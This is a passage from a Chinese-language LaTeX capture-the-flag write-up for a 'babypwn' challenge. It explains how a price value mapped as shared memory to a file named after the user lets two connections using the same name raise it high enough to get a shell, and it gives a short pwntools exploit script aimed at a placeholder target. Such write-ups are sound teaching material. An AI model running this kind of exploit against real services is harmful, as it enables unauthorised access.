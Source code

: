 \chapter{pwn}
\section{乙组基准-babypwn}
NeSE乙组的基准题，高级网络攻防课说做出来这些题才可以选这门课。这一系列题目因为不是公开平台上的，所以就不放出来了。

这道题进去首先要输入一个name,有三个选项:
\begin{itemize}
    \item 1 提高price: 最多提高十次，到100。
    \item 2 显示price：始终是0。
    \item 3 获得flag：price到100也换不到，提示price太低。
\end{itemize}

用ida逆一下，发现price到达200就可以拿到shell，且price是char*，被mmap到了'/tmp/input\_name.acc'：
\begin{lstlisting}
rice = mmap(0LL, 8uLL, 3, 1, fd, 0LL);          // PROT_WRITE | PROT_READ
                                                // MAP_SHARED
\end{lstlisting}
各个参数的含义可以用\href{https://github.com/zTrix/magic}{magic}查看。发现是共享映射的，那么直接开两个进程，输入一样的名字，分别提高10次price就可以拿到flag了。
\begin{lstlisting}
from pwn import *
context.log_level = "debug"
io_0 = remote("TARGET_ADDR", PORT)
io_0.sendafter("name.\n", b"a")
io_1 = remote("TARGET_ADDR", PORT)
io_1.sendafter("name.\n", b"a")
for i in range(11):
    io_0.sendlineafter("getflag\n", "1")
    io_1.sendlineafter("getflag\n", "1")
io_0.close()
io_1.interactive()
\end{lstlisting}
